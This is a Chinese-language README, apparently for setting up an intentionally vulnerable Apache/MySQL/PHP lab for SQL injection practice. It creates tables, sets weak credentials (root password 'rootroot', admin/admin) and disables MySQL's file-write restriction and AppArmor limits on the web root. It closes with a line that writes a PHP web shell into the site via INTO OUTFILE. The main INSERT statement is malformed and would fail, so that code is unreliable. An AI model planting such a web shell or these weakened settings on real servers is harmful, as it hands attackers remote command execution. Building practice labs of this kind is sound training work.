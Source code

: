 # sql

## 安裝Apache

執行：

$ sudo apt install apache2

檢查Apache是否正常運行：

$ sudo systemctl status apache2


## 安裝MySQL
執行

$ sudo apt install mysql-server

設定MySQL root user的密碼：

sudo mysql_secure_installation

改 root 密碼

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'rootroot';

### 建db


```
create database  user_db;
use user_db;
```

* 創table item
```
CREATE TABLE `item` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `attack` int NOT NULL,
  `defense` int NOT NULL,
  PRIMARY KEY (`id`)
)
```
* item 資料
```
INSERT INTO `item`(`id`, `name`, `attack`, `defense`) VALUES (1,'小李飛刀',100,323),
(`id`, `name`, `attack`, `defense`) VALUES (2,'屠龍刀',200,40),
(`id`, `name`, `attack`, `defense`) VALUES (3,'桃園盾',20,500),
(`id`, `name`, `attack`, `defense`) VALUES (4,'倚天劍',100,100),
(`id`, `name`, `attack`, `defense`) VALUES (5,'晨星虎斧',318,407),
(`id`, `name`, `attack`, `defense`) VALUES (6,'封魔流星破',247,50),
(`id`, `name`, `attack`, `defense`) VALUES (7,'霸虎風魔斬',469,54),
(`id`, `name`, `attack`, `defense`) VALUES (8,'修羅鬼噬爪',464,415),
(`id`, `name`, `attack`, `defense`) VALUES (9,'鬼噬日暮滅',327,401),
(`id`, `name`, `attack`, `defense`) VALUES (10,'洪流鳳火舞',378,485),
(`id`, `name`, `attack`, `defense`) VALUES (100,'彥宇大悲咒',2000,0);
```

* 創table user_table

```
CREATE TABLE `user_table` (
  `user_id` int NOT NULL AUTO_INCREMENT,
  `user_name` varchar(40) NOT NULL,
  `user_password` varchar(40) NOT NULL,
  `user_note` varchar(40) NOT NULL,
  PRIMARY KEY (`user_id`)
)
```

* user_table 資料
```

INSERT INTO `user_table`(`user_id`, `user_name`, `user_password`, `user_note`) VALUES(1,'admin','admin','root')
```

## php

```
sudo apt install php libapache2-mod-php php-mysql
```

## 下載 html.zip

放到 /var/www/html

利用  nautilus 改

sql 資料夾 
Owner: www-data   C&D
Group: www-data   C&D
other:            C&D

upfiles 資料夾 
Owner: mysql   C&D
Group: mysql   C&D
other:         C&D

修改outfile問題

SHOW GLOBAL VARIABLES LIKE '%secure%';
sudo find /* -name my.cnf
secure-file-priv = "/"


sudo nano /etc/apparmor.d/local/usr.sbin.mysqld 

/var/www/html/upfiles/ r,
/var/www/html/upfiles/** rw,

sudo apparmor_parser -r /etc/apparmor.d/usr.sbin.mysqld 

mysql -u username -p dbname < dbexport.sql

測試outfile
select 1,2,3,"<?php echo shell_exec($_GET['cmd']) ?>"  from item into outfile "/var/www/html/upfiles/shell.php";
